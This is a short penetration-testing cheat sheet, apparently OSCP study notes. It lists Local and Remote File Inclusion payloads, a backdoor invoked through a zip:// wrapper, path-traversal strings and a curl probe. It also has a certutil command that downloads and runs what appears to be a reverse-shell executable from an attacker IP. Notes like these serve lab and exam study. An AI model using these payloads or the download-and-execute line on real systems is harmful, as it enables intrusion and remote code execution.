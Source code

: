 - [Checklist](#checklist)
- [Default Webroot](#default-webroot)
- [Local File Inclusion](#local-file-inclusion)
- [Remote File Inclusion](#remote-file-inclusion)
- [Curl](#curl)
- [View Source Code](#view-source-code)
- [Gobuster](#gobuster)
- [Feroxbuster](#feroxbuster)
- [File Upload Vulnerability](#file-upload-vulnerability)
- [Java Code Execution](#java-code-execution)

# Checklist
- [ ] Local File Inclusion
- [ ] Remote File Inclusion
- [ ] View Source Code
- [ ] SQLi
- [ ] curl -IL https://www.inlanefreight.com
- [ ] whatweb 10.10.10.121
- [ ] wfuzz
- [ ] Gobuster
- [ ] DNS enumeration
- [ ] File upload vulnerability
- [ ] Discover webroot
- [ ] Robots.txt


# Default Webroot
```bash
Apache	/var/www/html/
Nginx	/usr/local/nginx/html/
IIS	c:\inetpub\wwwroot\
XAMPP	C:\xampp\htdocs\
```


# Local File Inclusion
- Click stuff to find out if we can find this ?file=, ?page=
- We could also utilize zip://, file:// php://
  - ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

![image](https://github.com/nuricheun/OSCP/assets/14031269/c80aca68-e70d-42e5-a1ca-dd124e75324f)

**Windows**
- ?page=C:/Windows/System32/drivers/etc/hosts
- ?page=../../../../../../../../Windows/System32/drivers/etc/hosts
- ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

**Linux**


# Remote File Inclusion
- ?page=http://192.168.45.208/somefile.php


# Curl 
- When there are URLs pointing at something suspicious, change method (from GET to POST) with curl can give you clear answers
```bash
curl -X POST -d '{"user":"clumsyadmin", "url":"http://192.168.45.175:443/list-running-procs"}' http://192.168.163.99:33333/list-running-procs
```


# File Upload Vulnerability
```bash
# always check root after uploading something
http://example.com/uploadedsomething.txt
http://example.com/upload/uploadedsomething.txt
http://example.com/uploads/uploadedsomething.txt


```


# Java Code Execution (C:/Windows/Temp/)
```bash
certutil -urlcache -f http://192.168.45.176/rev80.exe C:/Windows/Temp/rev80.exe
C:/Windows/Temp/rev80.exe
```

